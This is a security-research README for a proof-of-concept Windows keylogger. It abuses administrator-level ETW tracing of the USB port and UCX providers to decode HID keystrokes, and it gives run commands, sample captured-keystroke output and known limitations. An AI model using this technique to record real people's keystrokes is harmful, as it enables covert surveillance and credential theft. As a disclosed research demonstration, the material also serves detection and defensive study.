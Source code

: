 # KeyloggerPOC

This is a POC demonstrating how ETW can be leveraged as a keylogger on Windows 7 and above. This is 
accomplished through the ETW providers Microsoft-Windows-USB-USBPORT and Microsoft-Windows-USB-UCX
and parsing the HID data to extract the relevant keystrokes.

## Requirements
Administrative privileges
Windows 7 (USB 2.0)
Windows 8+ (USB 2.0 and USB 3.0)

## Usage
To run the keylogger with the default session name (UsbKeylog) no arguments are required:
```
C:\> ETWKeylogger.exe
```

Session names can be specified via CLI:
ETWKeylogger <session_name>
```
C:\> ETWKeylogger.exe Ruxcon2016
```

## sample output
```
20161006 05:16:21.340	02 00 17 00 00 00 00 00		T
20161006 05:16:21.660	00 00 0B 00 00 00 00 00		h
20161006 05:16:21.748	00 00 00 0C 00 00 00 00		i
20161006 05:16:21.828	00 00 00 16 00 00 00 00		s
20161006 05:16:21.957	00 00 2C 00 00 00 00 00		[SPACE]
20161006 05:16:22.028	00 00 00 0C 00 00 00 00		i
20161006 05:16:22.116	00 00 00 16 00 00 00 00		s
20161006 05:16:22.260	00 00 2C 00 00 00 00 00		[SPACE]
20161006 05:16:22.388	00 00 04 00 00 00 00 00		a
20161006 05:16:22.484	00 00 00 2C 00 00 00 00		[SPACE]
20161006 05:16:22.628	00 00 17 00 00 00 00 00		t
20161006 05:16:22.716	00 00 00 08 00 00 00 00		e
20161006 05:16:22.796	00 00 00 16 00 00 00 00		s
20161006 05:16:22.908	00 00 00 17 00 00 00 00		t
20161006 05:16:26.332	02 00 1E 00 00 00 00 00		!
20161006 05:16:26.548	02 00 1F 00 00 00 00 00		@
20161006 05:16:26.764	02 00 20 00 00 00 00 00		#
20161006 05:16:26.980	02 00 21 00 00 00 00 00		$
20161006 05:16:27.196	02 00 22 00 00 00 00 00		%
20161006 05:16:27.948	00 00 1E 00 00 00 00 00		1
20161006 05:16:28.132	00 00 1F 00 00 00 00 00		2
20161006 05:16:28.324	00 00 20 00 00 00 00 00		3
20161006 05:16:28.532	00 00 21 00 00 00 00 00		4
20161006 05:16:28.732	00 00 22 00 00 00 00 00		5
20161006 05:16:36.100	05 00 04 00 00 00 00 00		[CTL] [ALT] a
20161006 05:16:36.916	05 00 16 00 00 00 00 00		[CTL] [ALT] s
20161006 05:16:37.619	05 00 07 00 00 00 00 00		[CTL] [ALT] d
20161006 05:16:39.996	05 00 09 00 00 00 00 00		[CTL] [ALT] f
```

## Limitations
English (ASCII) keyboards only.
Full HID Usage Table not supported (not all keys)
A few second delay. All dynamic ETW sessions are prone to some kind of delay.

## Known Issues
Multiple key strokes can appear on the same line
Some HID devices may send bogus data. This often appears as a function (F*) key.
